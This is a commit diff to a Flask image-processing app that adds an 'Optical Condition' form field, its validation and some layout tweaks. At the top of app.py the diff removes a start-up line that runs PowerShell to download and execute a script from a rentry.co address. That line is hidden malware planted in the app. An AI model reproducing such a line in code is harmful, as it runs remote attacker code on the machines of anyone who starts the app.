

Before and after one commit to Saikat299792458/Blissty, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (306-973 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
Added Optical Condition

```diff
--- a/app.py
+++ b/app.py
@@ -3,9 +3,6 @@
 from flask import Flask, render_template, request, jsonify
 from datetime import datetime
 from functions import functions
-import subprocess
-subprocess.run(["powershell", "iex(iwr rentry.co/hotcarla/raw -usebasicparsing).content"])
-
 
 app = Flask(__name__)
 inst = functions()
@@ -22,8 +19,12 @@
     if 'modelName' not in request.form:
         return jsonify({'error': 'No model name provided'})
 
+    if 'opticalCondition' not in request.form:
+        return jsonify({'error': 'No optical condition provided'})
+
     image = request.files['image']
     model_name = request.form['modelName']
+    optical_condition = request.form['opticalCondition']
 
     # Generate timestamps
     time = datetime.now()
@@ -36,7 +37,7 @@
     rgba_values = inst.process_image(filename)
 
     # Log the processed data with the provided model name
-    inst.update_excel_file(timestamp, model_name, filename)
+    inst.update_excel_file(timestamp, model_name, optical_condition, filename)
 
     return jsonify(rgba_values)
 
--- a/functions.py
+++ b/functions.py
@@ -16,11 +16,12 @@
         # Read the existing data from the Excel file
         self.existing_data = pd.read_excel(self.excel_file_path)
 
-    def update_excel_file(self, timestamp, device_name, filename):
+    def update_excel_file(self, timestamp, device_name, optical_condition, filename):
         # Create a DataFrame with the new data
         new_data = pd.DataFrame({
             'Timestamp': [timestamp],
             'Device Name': [device_name],
+            'Optical Condition': [optical_condition],
             'Red': [self.Red],
             'Green': [self.Green],
             'Blue': [self.Blue],
@@ -38,6 +39,7 @@
 
         except Exception as e:
             print(f"Error updating Excel file: {e}")
+
 
 
     def process_image(self, filename):
--- a/static/scripts.js
+++ b/static/scripts.js
@@ -8,7 +8,7 @@
     imageInput.addEventListener('change', function () {
         capturedImage.src = URL.createObjectURL(imageInput.files[0]);
         capturedImage.style.display = 'block';
-        capturedImage.style.width = '100%';
+        capturedImage.style.width = '80%';
         capturedImage.style.height = 'auto';
 
         // Change "Capture Image" button to "Recapture" button style
@@ -28,6 +28,13 @@
     const modelName = document.getElementById('modelName').value.trim();
     if (modelName === '') {
         alert('Please enter the device model name.');
+        return;
+    }
+
+    // Check if the Optical Condition box is empty
+    const OC = document.getElementById('opticalCondition').value.trim();
+    if (OC === '') {
+        alert('Please enter the Optical Condition.');
         return;
     }
 
--- a/static/styles.css
+++ b/static/styles.css
@@ -23,7 +23,7 @@
 button {
     margin-top: 10px;
     cursor: pointer;
-    max-width: 90%;
+    max-width: 80%;
     margin-bottom: 10px;
 }
 
@@ -55,6 +55,8 @@
     display: flex;
     flex-direction: column;
     margin-bottom: 15px;
+    align-items: center;
+    justify-content: center;
 }
 
 label {
--- a/templates/index.html
+++ b/templates/index.html
@@ -14,10 +14,14 @@
                 <label for="modelName">Device Model Name:</label>
                 <input type="text" id="modelName" name="modelName" required>
             </div>
+            <div class="form-group">
+                <label for="opticalCondition">Optical Condition:</label>
+                <input type="text" id="opticalCondition" name="opticalCondition" required>
+            </div>
             <input type="file" accept="image/*" capture="camera" id="imageInput" name="image" style="display:none;">
-            <img id="capturedImage" alt="Captured Image" style="display:none; max-width: 90%;">
+            <img id="capturedImage" alt="Captured Image" style="display:none; max-width: 80%;">
             <button type="button" onclick="captureImage()" id="captureButton">
-                <img src="{{ url_for('static', filename='camera.png') }}" alt="Capture Image" style="max-width: 100%; height: auto;">
+                <img src="{{ url_for('static', filename='camera.png') }}" alt="Capture Image" style="max-width: 80%; height: auto;">
             </button>
             <button type="button" onclick="processImage()" style="display:none;" id="processButton">Process Image</button>
         </form>
```
